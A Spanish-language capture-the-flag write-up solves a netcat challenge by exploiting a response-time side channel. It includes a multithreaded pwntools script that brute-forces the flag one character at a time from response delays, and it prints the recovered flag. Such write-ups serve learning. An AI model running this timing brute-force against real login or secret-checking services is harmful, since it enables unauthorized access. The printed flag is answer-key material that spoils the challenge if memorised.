


## Enunciado
Welcome to the North Korean Nuclear Lunch Control Console!
ctf.alphasec.eu:8002

## Solucion
Nos encontramos ante un reto que al principio no se tiene mucha idea de que va ya que nos conectamos mediante netcat al puerto y direccion y probamos enviar distintos tipos de caracteres, sentencias de distintos lenguajes, numerosos caracteres por si hay un buffer overflow, etc y no sucumbe a nada.

Al dia siguiente se subio una imagen como pista.


En dicha imagen se menciona que puede que haya un side channel attack en la pulsacion de teclas.

Al principio no nos dice mucho pero probando a enviar cada caracter y calculando el tiempo que tarda en responder podemos ver que hay un caracter que tarda un segundo mas que el resto.

Y que esto se repetia caracter a caracter, por ejemplo, para el primer caracter todos tardaban aproximadamente un segundo y uno de ellos dos segundos, para el segundo caracter todos tardaban dos segundos excepto uno que tardaba tres, y asi sucesivamente.

Para llevar a cabo esta tarea cree un script en python que lo automatizaba, basicamente lo que hacia era enviar uno a uno todos los caracteres y quedandose en cada iteracion con el que mas ha tardado.

Dado que esto era muy lento decidi hacerlo multithreading.

### Codigo
```
from pwn import *
import string  
import time

#context.log_level = 'debug'

globalFlag = ""
globalTimes = {}
sem = threading.Semaphore()

def worker(id,startVal,endVal):
    global globalFlag
    global globalTimes
    try:
        for c in string.printable[startVal:endVal]:
            while True:
                try:
                    io = remote('ctf.alphasec.eu', 8002)
                    io.recv()
                    io.recv()
                    start = time.time()
                    io.sendline(globalFlag + c)
                    io.recv()
                    io.recv()
                    elapsed = time.time() - start
                    sem.acquire()
                    globalTimes[c] = elapsed
                    sem.release()
                    io.shutdown()
                    io.close()
                except Exception as ex:
                    print "[+] Algo ha petado, reintentando..."
                    print ex
                    continue
                finally:
                    break
    except Exception as ex:
        print "[+] Algo gordo ha petado"
        print(ex)
    print "[+] He terminado " + str(id)

# Inicializar tiempos a 0
for c in string.printable:
    globalTimes[c] = 0

for iteraciones in range(0,10):
    threads = []
    for i in range(0,10):
        if i < 9:
            t = threading.Thread(target=worker, args=(i,i*10,(i*10)+10))
        else:
            t = threading.Thread(target=worker, args=(i,i*10,94))
        threads.append(t)
        t.start()
    for t in threads:
        t.join()
    carac = ''
    biggestTime = 0
    for key,value in globalTimes.items():
        if value > biggestTime:
            biggestTime = value
            carac = key
    globalFlag += carac
    print "[+] Current Flag: " + globalFlag
```

El codigo ademas incluye algunas tacticas por si la conexion se corta o falla para que no crashee ni pierda la cuenta.

Si ejecutamos el script obtendremos la flag al cabo de unos minutos.



### flag{DyN@$+y_84}